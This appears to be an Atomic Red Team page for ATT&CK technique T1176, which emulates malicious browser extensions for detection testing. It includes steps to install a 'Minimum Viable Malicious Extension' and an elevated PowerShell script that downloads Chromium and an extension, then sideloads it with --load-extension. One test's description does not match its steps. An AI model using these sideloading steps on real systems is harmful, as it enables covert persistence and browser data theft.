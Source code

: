 # T1176 - Browser Extensions

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1176)

<blockquote>Adversaries may abuse Internet browser extensions to establish persistent access to victim systems. Browser extensions or plugins are small programs that can add functionality and customize aspects of Internet browsers. They can be installed directly or through a browser's app store and generally have access and permissions to everything that the browser can access.(Citation: Wikipedia Browser Extension)(Citation: Chrome Extensions Definition)

Malicious extensions can be installed into a browser through malicious app store downloads masquerading as legitimate extensions, through social engineering, or by an adversary that has already compromised a system. Security can be limited on browser app stores so it may not be difficult for malicious extensions to defeat automated scanners.(Citation: Malicious Chrome Extension Numbers) Depending on the browser, adversaries may also manipulate an extension's update url to install updates from an adversary controlled server or manipulate the mobile configuration file to silently install additional extensions.

Previous to macOS 11, adversaries could silently install browser extensions via the command line using the <code>profiles</code> tool to install malicious <code>.mobileconfig</code> files. In macOS 11+, the use of the <code>profiles</code> tool can no longer install configuration profiles, however <code>.mobileconfig</code> files can be planted and installed with user interaction.(Citation: xorrior chrome extensions macOS)

Once the extension is installed, it can browse to websites in the background, steal all information that a user enters into a browser (including credentials), and be used as an installer for a RAT for persistence.(Citation: Chrome Extension Crypto Miner)(Citation: ICEBRG Chrome Extensions)(Citation: Banker Google Chrome Extension Steals Creds)(Citation: Catch All Chrome Extension)

There have also been instances of botnets using a persistent backdoor through malicious Chrome extensions.(Citation: Stantinko Botnet) There have also been similar examples of extensions being used for command & control.(Citation: Chrome Extension C2 Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Chrome/Chromium (Developer Mode)](#atomic-test-1---chromechromium-developer-mode)

- [Atomic Test #2 - Chrome/Chromium (Chrome Web Store)](#atomic-test-2---chromechromium-chrome-web-store)

- [Atomic Test #3 - Firefox](#atomic-test-3---firefox)

- [Atomic Test #4 - Edge Chromium Addon - VPN](#atomic-test-4---edge-chromium-addon---vpn)

- [Atomic Test #5 - Google Chrome Load Unpacked Extension With Command Line](#atomic-test-5---google-chrome-load-unpacked-extension-with-command-line)

<br/>

## Atomic Test #1 - Chrome/Chromium (Developer Mode)

Turn on Chrome/Chromium developer mode and Load Extension found in the src directory

**Supported Platforms:** Linux, Windows, macOS

**auto_generated_guid:** 3ecd790d-2617-4abf-9a8c-4e8d47da9ee1

#### Run it with these steps!

1. Navigate to [chrome://extensions](chrome://extensions) and
   tick 'Developer Mode'.

2. Click 'Load unpacked extension...' and navigate to
   [Browser_Extension](../t1176/src/)

3. Click 'Select'

<br/>
<br/>

## Atomic Test #2 - Chrome/Chromium (Chrome Web Store)

Install the "Minimum Viable Malicious Extension" Chrome extension

**Supported Platforms:** Linux, Windows, macOS

**auto_generated_guid:** 4c83940d-8ca5-4bb2-8100-f46dc914bc3f

#### Run it with these steps!

1. Navigate to https://chrome.google.com/webstore/detail/minimum-viable-malicious/odlpfdolehmhciiebahbpnaopneicend
   in Chrome

2. Click 'Add to Chrome'

<br/>
<br/>

## Atomic Test #3 - Firefox

Create a file called test.wma, with the duration of 30 seconds

**Supported Platforms:** Linux, Windows, macOS

**auto_generated_guid:** cb790029-17e6-4c43-b96f-002ce5f10938

#### Run it with these steps!

1. Navigate to [about:debugging](about:debugging) and
   click "Load Temporary Add-on"

2. Navigate to [manifest.json](src/manifest.json)

3. Then click 'Open'

<br/>
<br/>

## Atomic Test #4 - Edge Chromium Addon - VPN

Adversaries may use VPN extensions in an attempt to hide traffic sent from a compromised host. This will install one (of many) available VPNS in the Edge add-on store.

**Supported Platforms:** Windows, macOS

**auto_generated_guid:** 3d456e2b-a7db-4af8-b5b3-720e7c4d9da5

#### Run it with these steps!

1. Navigate to https://microsoftedge.microsoft.com/addons/detail/fjnehcbecaggobjholekjijaaekbnlgj
   in Edge Chromium

2. Click 'Get'

<br/>
<br/>

## Atomic Test #5 - Google Chrome Load Unpacked Extension With Command Line

This test loads an unpacked extension in Google Chrome with the `--load-extension` parameter. This technique was previously used by the Grandoreiro malware to load a malicious extension that would capture the browsing history, steal cookies and other user information. Other malwares also leverage this technique to hijack searches, steal passwords, inject ads, and more.

References:
https://attack.mitre.org/techniques/T1176/
https://securityintelligence.com/posts/grandoreiro-malware-now-targeting-banks-in-spain/

**Supported Platforms:** Windows

**auto_generated_guid:** 7a714703-9f6b-461c-b06d-e6aeac650f27

#### Inputs:

| Name        | Description                                                        | Type   | Default Value |
| ----------- | ------------------------------------------------------------------ | ------ | ------------- |
| working_dir | Working directory where the files will be downloaded and extracted | string | $env:TEMP     |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
# Chromium
$chromium =  "https://commondatastorage.googleapis.com/chromium-browser-snapshots/Win_x64/1153778/chrome-win.zip"

# uBlock Origin Lite to test side-loading
$extension = "https://github.com/gorhill/uBlock/releases/download/uBOLite_0.1.23.6055/uBOLite_0.1.23.6055.chromium.mv3.zip"

Set-Location "#{working_dir}"

Set-Variable ProgressPreference SilentlyContinue
Invoke-WebRequest -URI $chromium -OutFile "#{working_dir}\chrome.zip"
Invoke-WebRequest -URI $extension -OutFile "#{working_dir}\extension.zip"


Expand-Archive chrome.zip -DestinationPath "#{working_dir}" -Force
Expand-Archive extension.zip -Force

Start-Process .\chrome-win\chrome.exe --load-extension="#{working_dir}\extension\" -PassThru
```

#### Cleanup Commands:

```powershell
Set-Location "#{working_dir}"
Stop-Process -Name chrome -Force
Remove-Item .\chrome.zip, .\chrome-win, .\extension, .\extension.zip -Recurse -Force
Set-Variable ProgressPreference Continue
```

<br/>
